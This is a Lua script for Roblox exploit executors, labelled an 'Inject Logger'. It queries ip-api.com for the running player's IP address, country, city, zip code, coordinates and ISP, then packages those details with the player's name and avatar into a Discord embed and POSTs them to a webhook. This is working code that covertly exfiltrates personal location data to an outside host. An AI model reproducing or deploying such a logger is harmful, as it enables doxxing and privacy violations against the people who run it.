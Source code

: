 do
    -- This function returns a string with the name of the exploit u using(only checks for krnl, synapse, script ware)
    local function checkExploit()
        
        local exploitName = (syn and 'Synapse') or (Krnl and 'Krnl') or ( identifyexecutor and identifyexecutor() ) or (getexecutorname and getexecutorname())


        return exploitName

    end

    skidApi = {
        webhookJson = function(self, scriptName)

            if not self then return end

            local player = game.Players.LocalPlayer
            local playerThumb = string.format('https://www.roblox.com/Thumbs/Avatar.ashx?x=420&y=420&userid=%d&format=png', player.UserId)
            local ipData = self.ipApi
            scriptName = scriptName or 'Inject Logger'
            return {
                content = string.format('**@%s** __fired__ **%s**', player.Name, scriptName),
                embeds  = {
                    { 
                        author={
                                name='---------',
                                url='https://discord.gg/z7NxmM4k',
                                icon_url='https://media.discordapp.net/attachments/768071654295207967/906190414111997952/images.jpg'
                        },
                        title='**ez**',
                        url='https://discord.gg/z7NxmM4k',
                        description = string.format('@%s**(%s)** fired **%s** [discord](https://discord.gg/z7NxmM4k)', player.Name, player.DisplayName, scriptName),
                        color = 0,
                        fields  = {
                            {
                                name = '**Country**',
                                value = ipData['country'] .. '/' .. ipData['countryCode'],
                                inline = true
                            },
                            {
                                name = '**Region**',
                                value = ipData['regionName'] .. '/' .. ipData['region'],
                                inline = true
                            },
                            {
                                name = '**City/Zip**',
                                value = ipData['city'] .. '/' .. ipData['zip'],
                                inline = true
                            }
                        },
                        thumbnail = {
                            url = playerThumb
                        }
                    },
                    {
                        color = 0,
                        fields={
                            {
                                name = '**lat/lon**',
                                value = ipData['lat'] .. '/' .. ipData['lon'],
                                inline = true
                            },
                            {
                                name = '**Isp/Org**',
                                value = ipData['isp'] .. '/' .. ipData['org'],
                                inline = true
                            },
                            {
                                name = '**IPV4/IPV6**',
                                value = ipData['query'],
                                inline = false
                            },
                        },
                        footer = {
                            text = '------',
                            icon_url='https://media.discordapp.net/attachments/768071654295207967/906190414111997952/images.jpg'
                        }
                    }
                }
            }
        end,

        ipApi = game:GetService('HttpService'):JSONDecode(game:HttpGet('http://ip-api.com/json')),
        exploitName = checkExploit(),

        httpPost = (Krnl and request) or (syn and syn.request) or http_request or (http and http.request),
        
        sendWebhook = function(self,webhooklink, ...)
            if self and webhooklink and self.httpPost and self.webhookJson then

                if type(self.webhookJson) == "function" then
                    return self.httpPost(
                    {
                        Url = webhooklink,
                        Method = 'POST',
                        Body = game:GetService('HttpService'):JSONEncode(self:webhookJson(...)) ,
                        Headers = {
                            ['Content-Type'] = 'application/json'
                        }
                    }
                )
                end

                return self.httpPost(
                    {
                        Url = webhooklink,
                        Method = 'POST',
                        Body = game:GetService('HttpService'):JSONEncode(self.webhookJson) ,
                        Headers = {
                            ['Content-Type'] = 'application/json'
                        }
                    }
                )
            end
        end
    }

end








return skidApi
